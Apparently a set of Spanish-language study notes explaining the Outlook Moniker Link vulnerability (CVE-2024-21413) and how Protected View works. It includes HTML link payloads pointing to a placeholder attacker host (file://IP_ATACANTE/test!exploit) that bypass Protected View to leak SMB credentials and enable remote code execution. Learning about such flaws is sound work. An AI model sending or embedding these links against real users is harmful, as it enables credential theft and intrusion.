 ```yaml
---
layout: apunte
title: "2. Moniker Link (CVE-2024-21413)"
---
```


Outlook puede renderizar emails como HTML. Además, Outlook puede parsear hiperlinks como HTTP y HTTPS. De cualquier forma, también puede abrir enlaces especificando aplicaciones, conocido como Moniker Links. Normalmente, Outlook lanza un mensaje de riesgo de seguridad cuando se disparan aplicaciones externas.

![](/apuntes/img/134.jpg)

Este pop-up es el resultado del modo "Vista Protegida" de Outlook. Este modo abre emails que contienen archivos adjuntos, hiperlinks y demás en modo de sólo lectura, bloqueando cosas como las macros.

Al usar `file://` en el moniker link podemos decirle a Outlook que acceda a un archivo, como uno en la red compartida (`a href="file://IP_ATACANTE/test>Click me</a>`). El protocolo SMB es usado, lo que implica usar credenciales locales para autentificación. Sin embargo, el modo "vista protegida" atrapa y bloquea este intento.

```html
<p><a href="file://IP_ATACANTE/test">Click me</a></p>
```

La vulnerabilidad aquí existe al modificar el hiperenlace para incluir el carácter especial `!`, lo que resulta en el bypass del modo protegido de Outlook.

```html
<p><a href="file://IP_ATACANTE/test!exploit">Click me</a></p>
```

Como atacantes podemos ofrecer este link para el ataque. La compartición no tiene por qué existir en el dispositivo remoto. La ejecución remota de comandos (RCE) es posible porque el Moniker Link usa el modelo de objetos componentes (COM).